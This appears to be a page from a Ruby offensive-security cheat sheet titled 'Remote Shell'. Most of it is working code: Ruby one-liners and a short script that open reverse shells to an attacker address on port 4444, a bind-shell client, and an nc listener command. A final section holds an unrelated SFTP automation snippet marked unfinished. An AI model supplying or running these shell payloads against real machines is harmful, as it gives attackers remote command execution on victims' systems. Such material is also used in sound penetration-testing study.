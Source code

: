 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```
</br>
since `192.168.0.15` is the victim IP

## Reverse shell
Attacker is listining on port 4444 `nc -lvp 4444`. Now on victim machine run
```ruby
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

if you don't whant to rely on `/bin/sh`
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

if you don't whant to rely on `cmd.exe`
```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

since `192.168.0.13` is the attacker IP

If you what it as more flixable script file

```ruby
#!/usr/bin/env ruby
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)
```



## Bind and Reverse shell 
This is an awesome implementation for a standalone  [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by [Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells) on github . The bind shell requires authentication while reverse is not.




## Pseudo Terminal (PTY)
To be fixed
```ruby
# https://gist.github.com/kwent/e2c34c2dfd01a194a49a
# http://ruby-doc.org/stdlib-2.2.0/libdoc/pty/rdoc/PTY.html

require 'pty'
require 'expect'
PTY.spawn('sftp username@sftp.domain.com:/uploads') do |input, output|
  # Say yes to SSH fingerprint
  input.expect(/fingerprint/, 2) do |r|
    output.puts "yes" if !r.nil?
    # Enter SFTP password
    input.expect(/password/, 2) do |r|
      output.puts 'your_sftp_password' if !r.nil?
      input.expect(/sftp/) do
        # List folders and files in `/uploads`
        output.puts 'ls'
        # Check if folder named `foo` exist
        input.expect(/foo/, 1) do |result|
          is_folder_exist = result.nil? ? false : true
          # Create `foo` folder if does'nt exist
          output.puts "mkdir foo" if !is_folder_exist
          # Change directory to `foo`
          output.puts "cd foo"
          # Upload `/path/to/local/foo.txt` in `foo` folder as `foo.txt`
          output.puts "put /path/to/local/foo.txt foo.txt"
          # Exit SFTP
          output.puts "exit"
        end
      end
    end
  end
end
```


